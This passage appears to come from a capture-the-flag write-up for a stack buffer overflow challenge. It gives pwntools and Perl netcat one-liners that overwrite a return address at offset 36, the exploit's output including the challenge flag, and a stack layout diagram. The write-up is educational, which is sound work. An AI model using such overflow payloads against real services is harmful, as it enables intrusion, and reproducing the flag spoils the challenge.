### Using pwntools one-liner

```bash
python3 -c "from pwn import *; print((b'A'*36 + p32(0x080491d6)).decode('latin1'))" | nc challenge.server.com 9999
```

### Perl Alternative

If Python isn't available:

```bash
(perl -e 'print "A"x36 . "\xd6\x91\x04\x08"'; cat) | nc challenge.server.com 9999
```

## Running the Exploit

When I executed the exploit, here's what happened:

```bash
python3 exploit.py
[*] Target secret_function address: 0x80491d6
[*] Crafting buffer overflow payload...
[*] Sending payload to bypass authentication...
[+] Payload sent! Receiving secret codes...

Access denied. Your attempt has been logged.

[RESISTANCE TERMINAL ACCESS GRANTED]
[DECRYPTING CLASSIFIED INTELLIGENCE...]

SECRET RESISTANCE CODES RETRIEVED:
sscit{r3s1st4nc3_h4ck3d_th3_m41nfr4m3_4nd_br0k3_fr33}

[TRANSMISSION SECURE - RESISTANCE NETWORK ACTIVATED]

[+] Secret resistance codes retrieved: sscit{r3s1st4nc3_h4ck3d_th3_m41nfr4m3_4nd_br0k3_fr33}
```

## Technical Analysis

### Memory Layout

The stack layout during exploitation:

```
High Memory
+------------------+
| Return Address   | <- We overwrite this (offset 36)
+------------------+
| Saved EBP        | (offset 32)
+------------------+
| password[32]     | <- Our input buffer starts here
+------------------+
Low Memory
```
